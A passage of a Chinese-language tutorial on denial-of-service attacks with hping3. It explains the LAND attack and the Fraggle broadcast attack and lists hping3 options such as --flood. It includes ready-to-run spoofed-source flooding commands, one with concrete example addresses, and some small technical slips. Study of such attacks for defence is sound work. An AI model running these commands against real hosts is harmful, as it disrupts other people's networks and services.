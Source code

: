 着陆攻击 LAND Attack 也是一种拒绝服务攻击 DOS。LAND 是 Local Area Network Denial 的缩写，意思是局域网拒绝服务攻击，翻译为着陆攻击只是一种错误的理解。攻击原理为，攻击机向目标机发送一个 SYN 的 TCP 包，包中的源地址被伪造为目标机的地址。当目标机收到包后，会向自己发送一个 SYN+ACK 的 TCP 包。然后，目标机向自己发送一个 ACK 包，这样就自己和自己建立一个空连接。这个空连接会一直持续，直到超时。当目标机被这样大量欺骗，建立大量空连接，消耗大量的系统资源，导致系统运行缓慢，甚至崩溃。

```bash
hping3 -S -c 1000000 -a <源IP> -p port <目标IP>
```

:::

::: details Fraggle Attack

Fraggle 攻击对 Smurf 攻击作了简单的修改，使用的是 UDP 应答消息而非 ICMP。

```bash
hping3 -2 -a 目标ip 目标服务器广播地址

hping3 -2 -a 192.168.0.1 192.168.0.255
```

:::

::: details hping3 的其他参数用法

### 用法

`-h` `--help` 显示帮助

`-v` `--version` 显示版本

`-c` `--count` 发送数据包的数目

`-i` `--interval` 发送数据包间隔的时间 (uX即X微秒,例如：-i u1000)

`--fast` 等同 `-i u10000`(每秒10个包) 

`--faster` 等同 `-i u1000`(每秒100个包) 

`--flood` 尽最快发送数据包，不显示回复。 

`1 2 3 -n --numeric` 数字化输出，象征性输出主机地址。

`-q` `--quiet` 安静模式

`-I` `--interface` 网卡接口 (默认路由接口)

`-V` `--verbose` 详细模式

`-D` `--debug` 调试信息

`-z` `--bind` 绑定ctrl+z到ttl(默认为目的端口)

`-Z` `--unbind` 取消绑定ctrl+z键

`–beep` 对于接收到的每个匹配数据包蜂鸣声提示

### 模式选择

default mode TCP // 默认模式是 TCP

-0 --rawip RAWIP模式，原始IP模式。在此模式下HPING会发送带数据的IP头。即裸IP方式。使用RAWSOCKET方式。

-1 --icmp ICMP模式，此模式下HPING会发送IGMP应答报，你可以用–ICMPTYPE --ICMPCODE选项发送其他类型/模式的ICMP报文。
